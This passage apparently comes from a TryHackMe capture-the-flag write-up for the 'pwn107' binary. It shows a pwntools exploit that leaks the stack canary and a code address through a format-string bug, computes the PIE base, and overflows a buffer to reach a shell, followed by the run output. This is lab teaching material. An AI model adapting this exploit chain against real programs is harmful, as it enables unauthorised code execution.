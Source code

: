 ```python
	'%{offset}$#lx'.format(offset= canary_offset).encode(),
	separator.encode(),
	'%{offset}$#lx'.format(offset= vaddr_offset).encode() # hex format
])

io.sendlineafter(b'THM: What\'s your last streak?', payload)
data=io.recvlines(2)[1].decode()

# Get the canary and virtual address
data=data.strip().split(':')[1].split(separator)
canary=int(data[0], 16)
vaddr_leaked=int(data[1], 16)

info(f"canary: {hex(canary)}")
info(f"vaddr_leaked: {hex(vaddr_leaked)}")

#### Stage 2: Buffer Overflow ####

success("#### Stage 2: Buffer Overflow ####\n")

base_vaddr=vaddr_leaked-main_paddr

get_streak_vaddr=base_vaddr+get_streak_paddr

info(f"base_vaddr: {hex(base_vaddr)}")
info(f"get_streak_vaddr: {hex(get_streak_vaddr)}")

payload=flat({
    # padding
    24: canary,
    # dummy rbp
    40: get_streak_vaddr
})

io.sendline(payload)
io.interactive()

```

Result:

```bash
$ ./exploit 
[+] Starting local process './pwn107': pid 43006
[+] #### Stage 1: Leak The Memory ####
[*] canary: 0xa276be80f53c4700
[*] vaddr_leaked: 0x5ab36c600992
[+] #### Stage 2: Buffer Overflow ####
[*] base_vaddr: 0x5ab36c600000
[*] get_streak_vaddr: 0x5ab36c600961
[*] Switching to interactive mode
\x02

[Few days latter.... a notification pops up]

Hi pwner 👾, keep hacking👩‍💻 - We miss you!😢
This your last streak back, don't do this mistake again
$ whoami
ap
$ 

```
